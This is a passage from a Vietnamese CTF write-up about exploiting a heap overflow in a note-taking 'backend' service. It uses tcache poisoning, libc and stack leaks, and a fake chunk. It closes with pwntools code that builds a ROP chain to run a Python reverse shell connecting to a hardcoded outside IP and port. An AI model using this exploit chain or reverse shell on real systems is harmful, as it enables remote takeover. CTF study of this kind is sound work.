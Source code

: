 * Đoạn tiếp sau đây của mình chỉ hoạt động trên local còn khi chạy trên server thì sau khi leak được heap của `backend` thì hình như `backend` crash nên không thể kết nối được nữa
* Tiếp theo dựa vào `heap overflow` thì mình overwrite được tcache cho trỏ về `1` note hiện tại để mình có thể sửa `content` tùy ý mà leak. Đoạn này rất mệt vì nó phá heap với struct nhiều làm mãi mới xây dựng được `1` cái payload chạy dc(mình đọc lại cũng chẳng hiểu gì)

![Screenshot 2024-01-29 145941](https://hackmd.io/_uploads/H1JWo0E9T.png)

* Như ta thấy `next_note` và `content` đều trỏ cùng `1` chunk nên mình thay đổi `content` để leak `libc` và `stack`
* Sau thì mình fake tcache lần nữa nma giờ không thể làm được `heap overflow` với cái kiểu `reply_msg + tmp_size > 0x10000` heap giờ nát quá rồi không chạy được cái đó nữa thì ở đây do có thể control được hoàn toàn `1` note mình thay đổi control vì mình có thể `arbitrary free` `1` chunk bất kì. Mình chỉ cần tìm trước `1` cái tcache chunk nào đó có `1` số data mà mình kiểm soát từ trước đó rồi craft fake chunk 

![Screenshot 2024-01-29 150545](https://hackmd.io/_uploads/HkQOnA49a.png)

![Screenshot 2024-01-29 150553](https://hackmd.io/_uploads/rJu_3R4qT.png)

* Lúc đầu cái `aa...` kia là `1` cái string khác mà mình biết ngay là tên của `1` note mình tạo nên mình biết là mình control được rồi mình set `0x151` ở kia thôi

```py=
new_note(b'a'*8 + p32(0x151), b'fake', 0xc0, fake_chunk)
```

* `free` rồi `malloc` chunk vừa rồi để overwrite tcache thành `saved rip - 0x10` của `memcpy` rồi tạo reverse shell do mình không thể interact trực tiếp với `backend`

```py=
PYTHON3 = env_back - 0x298 - 8 - 0x10 + 0xa0
C = PYTHON3 + 1 + len('/bin/python3')
REVERSE_ADDR = C + 1 + len('-c')
REVERSE = b'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("193.161.193.99",26863));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
back_rop = ROP(libc_back)
flag = b'/home/nao/flag\x00r\x00'.ljust(0x18, b'\x00')
back_rop.raw(0)
back_rop.raw(0)
back_rop.raw(0)
back_rop.execve(PYTHON3, PYTHON3 - 0x40, 0)
payload = back_rop.chain()

payload = payload.ljust(0xa0 - 0x40, b'\x00')
payload += p64(PYTHON3)
payload += p64(C)
payload += p64(REVERSE_ADDR)
payload += p64(0)*5
payload += b'/bin/python3\x00' + b'-c\x00' + REVERSE + b'\x00'

```
